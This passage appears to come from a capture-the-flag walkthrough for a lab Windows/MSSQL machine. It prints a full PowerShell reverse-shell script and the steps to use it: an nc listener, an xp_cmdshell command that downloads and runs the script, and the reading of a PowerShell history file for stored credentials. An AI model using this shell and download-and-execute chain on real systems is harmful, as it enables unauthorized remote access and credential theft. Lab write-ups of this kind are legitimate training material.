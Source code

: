 <div class="language-powershell highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="nv">$client</span><span class="w"> </span><span class="o">=</span><span class="w"> </span><span class="n">New-Object</span><span class="w"> </span><span class="nx">System.Net.Sockets.TCPClient</span><span class="p">(</span><span class="s2">"10.10.14.34"</span><span class="p">,</span><span class="w"> </span><span class="mi">1234</span><span class="p">);</span><span class="nv">$stream</span><span class="w"> </span><span class="o">=</span><span class="w"> </span><span class="nv">$client</span><span class="o">.</span><span class="nf">GetStream</span><span class="p">();[</span><span class="n">byte</span><span class="p">[]]</span><span class="nv">$bytes</span><span class="w"> </span><span class="o">=</span><span class="w"> </span><span class="mi">0</span><span class="o">..</span><span class="mi">65535</span><span class="o">|%</span><span class="p">{</span><span class="mi">0</span><span class="p">};</span><span class="kr">while</span><span class="p">((</span><span class="nv">$i</span><span class="w"> </span><span class="o">=</span><span class="w"> </span><span class="nv">$stream</span><span class="o">.</span><span class="nf">Read</span><span class="p">(</span><span class="nv">$bytes</span><span class="p">,</span><span class="w"> </span><span class="nx">0</span><span class="p">,</span><span class="w"> </span><span class="nv">$bytes</span><span class="o">.</span><span class="nf">Length</span><span class="p">))</span><span class="w"> </span><span class="o">-ne</span><span class="w"> </span><span class="mi">0</span><span class="p">){;</span><span class="nv">$data</span><span class="w"> </span><span class="o">=</span><span class="w"> </span><span class="p">(</span><span class="n">New-Object</span><span class="w"> </span><span class="nt">-TypeName</span><span class="w"> </span><span class="nx">System.Text.ASCIIEncoding</span><span class="p">)</span><span class="o">.</span><span class="nf">GetString</span><span class="p">(</span><span class="nv">$bytes</span><span class="p">,</span><span class="nx">0</span><span class="p">,</span><span class="w"> </span><span class="nv">$i</span><span class="p">);</span><span class="nv">$sendback</span><span class="w"> </span><span class="o">=</span><span class="w"> </span><span class="p">(</span><span class="n">iex</span><span class="w"> </span><span class="nv">$data</span><span class="w"> </span><span class="nx">2</span><span class="err">&gt;</span><span class="o">&amp;</span><span class="nx">1</span><span class="w"> </span><span class="o">|</span><span class="w"> </span><span class="n">Out-String</span><span class="w"> </span><span class="p">);</span><span class="nv">$sendback2</span><span class="w"> </span><span class="o">=</span><span class="w"> </span><span class="nv">$sendback</span><span class="w"> </span><span class="o">+</span><span class="w"> </span><span class="s2">"# "</span><span class="p">;</span><span class="w"> </span><span class="nv">$sendbyte</span><span class="w"> </span><span class="o">=</span><span class="w"> </span><span class="p">([</span><span class="n">text.encoding</span><span class="p">]::</span><span class="n">ASCII</span><span class="p">)</span><span class="o">.</span><span class="nf">GetBytes</span><span class="p">(</span><span class="nv">$sendback2</span><span class="p">);</span><span class="nv">$stream</span><span class="o">.</span><span class="nf">Write</span><span class="p">(</span><span class="nv">$sendbyte</span><span class="p">,</span><span class="nx">0</span><span class="p">,</span><span class="nv">$sendbyte</span><span class="o">.</span><span class="nf">Length</span><span class="p">);</span><span class="nv">$stream</span><span class="o">.</span><span class="nf">Flush</span><span class="p">()};</span><span class="nv">$client</span><span class="o">.</span><span class="nf">close</span><span class="p">()</span><span class="w">
</span></code></pre></div></div>
Notice that we have your <code class="highlighter-rouge">tun0</code> IP, with some port number (here we have chosen <code class="highlighter-rouge">1234</code>) near the start of the file;
</li>
<li>On your computer, we need to set up an http server for later; run <code class="highlighter-rouge">sudo python3 -m http.server 80</code>.  Ensure you run this in the same directory as your reverse powershell script from the previous step;</li>
<li>Also on your computer, we will need a netcat listener; run <code class="highlighter-rouge">nc -nvlp 1234</code> (or exchange <code class="highlighter-rouge">1234</code> with the port you chose two steps ago.  Note that in the verbatim version, I used this along with <code class="highlighter-rouge">rlwrap</code> to make this step nicer);</li>
<li>Back in the SQL window, now run <code class="highlighter-rouge">xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.34/shell.ps1\");"</code> in order to transfer the reverse powershell script to the SQL database;</li>
<li>Go back to you netcat listener window, and you will see that it has connected to the server!  You can verify this by running <code class="highlighter-rouge">whoami</code>.  You can now run <code class="highlighter-rouge">more \users\sql_svc\desktop\user.txt</code> to capture the user flag!;</li>
<li>This privilege escalation is simple: it only relies on the powershell history file, which requires no higher rights to acces.  Simply run: <code class="highlighter-rouge">type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt</code> and you will see a username and a password;</li>